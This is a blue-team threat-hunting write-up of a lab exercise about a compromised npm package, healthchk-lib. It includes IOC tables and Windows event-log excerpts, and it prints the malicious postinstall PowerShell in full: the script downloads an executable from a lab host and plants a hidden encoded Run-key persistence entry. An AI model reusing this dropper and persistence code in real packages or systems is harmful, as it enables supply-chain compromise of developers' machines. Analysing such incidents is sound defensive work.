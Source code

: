 ```yaml
---
{"dg-publish":true,"permalink":"/health-hazard-threat-hunting/","tags":["blue-team"]}
---
```


~ [[input\|input]]

# Health Hazard

### Briefing

After months of juggling content calendars and caffeine-fueled brainstorming, co-founder Tom Whiskers finally carved out time to build the company’s first website. It was supposed to be simple: follow a tutorial, install a few packages, and bring the brand to life with lightweight JavaScript magic.

But between sleepless nights and copy-pasted code, Tom started feeling off. Not sick exactly, just off. The terminal scrolled with reassuring green text, the site loaded fine, and everything looked normal.

But no one really knows what might have been hidden beneath it all…

It just waited.

### Hypothesis

An attacker may have leveraged a compromised third-party software package to gain initial access to the system and silently stage a payload for later execution. They likely established persistence to maintain access without immediate detection.

### Threat Hunting Mission
---

Your task as a Threat Hunter is to conduct a comprehensive hunting session in the TryGovMe environment to identify potential anomalies and threats. You are expected to:

**1. Validate a Hunting Hypothesis**

Investigate the given hypothesis and determine - based on your findings - whether it is valid or not.

**2. Review IOCs from External Sources**

Analyse the list of Indicators of Compromise provided by security teams from compromised partner organisations. These may lead you to uncover additional malicious activity or pivot points.

**3. Reconstruct the Attack Chain**

Perform a detailed investigation within the environment and reconstruct the attack chain, starting from the initial point of compromise to the attacker's final objective.

**4. Determine the Scope of the Incident**

Identify the impacted users, systems, and assets. Understanding the full scope is critical for response and containment.

**5. Generate a Final Threat Hunting Report**

Based on your findings and the reconstructed attack chain, compile a final Threat Hunting report highlighting the key observations and affected entities.

---

## Host-Based IOCs

| **Type**             | **Value**                                                |
| -------------------- | -------------------------------------------------------- |
| NPM Package          | `healthchk-lib@1.0.1`                                    |
| Registry Path        | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`     |
| Registry Value Name  | `Windows Update Monitor`                                 |
| Registry Value Data  | `powershell.exe -NoP -W Hidden -EncodedCommand <base64>` |
| Downloaded File Path | `%APPDATA%\SystemHealthUpdater.exe`                      |
| PowerShell Command   | `Invoke-WebRequest -Uri ... -OutFile ...`                |
| Process Execution    | `powershell.exe -NoP -W Hidden -EncodedCommand ...`      |
| Script Artifact      | Found in `package.json` under `"postinstall"`            |

## Network-Based IOCs

| **Type**           | **Value**                                                  |
| ------------------ | ---------------------------------------------------------- |
| Download URL       | `http://global-update.wlndows.thm/SystemHealthUpdater.exe` |
| Hostname Contacted | `global-update.wlndows.thm`                                |
| Protocol           | HTTP (unencrypted)                                         |
| Port               | 80                                                         |
| Traffic Behavior   | Outbound file download to `%APPDATA%` via PowerShell       |

External sources proves that right after installation of npm packages, it makes a request to 'global-update.wlndows.thm' to download a malicious executable and this executable is added to the Run registry for persistence mechanism:

 timestamp: 21/06/2025 10:58:27.000
```C
$dest = "$env:APPDATA\SystemHealthUpdater.exe"
$url = "http://global-update.wlndows.thm/SystemHealthUpdater.exe"

# Download file
Invoke-WebRequest -Uri $url -OutFile $dest

# Base64 encode the command
$encoded = [Convert]::ToBase64String(
    [Text.Encoding]::Unicode.GetBytes("Start-Process '$dest'")
)

# Build persistence command
$runCmd = 'powershell.exe -NoP -W Hidden -EncodedCommand ' + $encoded

# Add to registry for persistence
Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' `
    -Name 'Windows Update Monitor' -Value $runCmd
```

Filtering for `npm`, we can also see the malicious package being installed:

timestamp: 21/06/2025 10:58:24.000
```C
"C:\Program Files\nodejs\node.exe" "C:\Program Files\nodejs/node_modules/npm/bin/npm-cli.js" install healthchk-lib@1.0.1
```

Based on analysis and ParentCommandLine, the malicious npm package installation goes first then the installation of SystemHealthUpdater.exe comes next.


It looks like this is the user responsible for installing this packages

```C
ParentUser: PAW-TOM\itadmin-tom
```

With computer name of : ComputerName: paw-tom

```
TargetFilename: C:\Development\node_modules\healthchk-lib\scripts\postinstall.ps1
```

Then there is evidence that the user tom read credentials from the credentials manager:

```C
Account_Domain: PAW-TABITHA  
   Account_Name: itadmin-tom  
   ComputerName: paw-tabitha  
   Error_Code: -  
   EventCode: 5379  
   EventType: 0  
   Keywords: Audit Success  
   LogName: Security  
   Logon_ID: 0x6A7BB  
   Message: Credential Manager credentials were read. Subject: Security ID: S-1-5-21-1966530601-3185510712-10604624-500 Account Name: itadmin-tom Account Domain: PAW-TABITHA Logon ID: 0x6A7BB Read Operation: Enumerate Credentials
```

From computername: paw-tabitha there were signs of host enumeration indicating a successful lateral movement:

```C
C:\Windows\system32\cmd.exe /c C:\Windows\system32\reg.exe query hklm\software\microsoft\windows\softwareinventorylogging /v collectionstate /reg:64

C:\Windows\system32\reg.exe query hklm\software\microsoft\windows\softwareinventorylogging /v collectionstate /reg:64

wmic OS get OperatingSystemSKU /format:list

powershell "Get-CimInstance Win32_PnPEntity | Where-Object { $_.Service -eq 'xenvbd' } | Select-Object DeviceID | ConvertTo-Json -Depth 3"

powershell "Get-ItemProperty -Path 'HKLM:\SOFTWARE\Amazon\PVDriver' | Select-Object Name, Version | ConvertTo-Json -Depth 3"

taskhostw.exe SYSTEM

powershell "Get-CimInstance Win32_OperatingSystem | Select-Object Version, OperatingSystemSKU | ConvertTo-Json -Depth 3"
```

  timestamp: 21/06/2025 10:53:04.000



* ComputerName="paw-tabitha" app="win:remote"

```C
Logon_Type: 10 Message: An account was successfully logged on. Subject: Security ID: S-1-5-18 Account Name: PAW-TABITHA$ Account Domain: WORKGROUP Logon ID: 0x3E7 Logon Information: Logon Type: 10 Restricted Admin Mode: No Virtual Account: No Elevated Token: Yes Impersonation Level: Impersonation New Logon: Security ID: S-1-5-21-1966530601-3185510712-10604624-500 Account Name: itadmin-tom Account Domain: PAW-TABITHA Logon ID: 0x6A7BB Linked Logon ID: 0x0 Network Account Name: - Network Account Domain: - Logon GUID: {00000000-0000-0000-0000-000000000000} Process Information: Process ID: 0x554 Process Name: C:\Windows\System32\svchost.exe Network Information: Workstation Name: PAW-TABITHA Source Network Address: 194.50.16.198 Source Port: 0 Detailed Authentication Information: Logon Process: User32 Authentication Package: Negotiate Transited Services: - Package Name (NTLM only): - Key Length: 0 This event is generated when a logon session is created. It is generated on the computer that was accessed. The subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe. The logon type field indicates the kind of logon that occurred. The most common types are 2 (interactive) and 3 (network). The New Logon fields indicate the account for whom the new logon was created, i.e. the account that was logged on. The network fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases. The impersonation level field indicates the extent to which a process in the logon session can impersonate. The authentication information fields provide detailed information about this specific logon request. - Logon GUID is a unique identifier that can be used to correlate this event with a KDC event. - Transited services indicate which intermediate services have participated in this logon request. - Package name indicates which sub-protocol was used among the NTLM protocols. - Key length indicates the length of the generated session key. This will be 0 if no session key was requested
```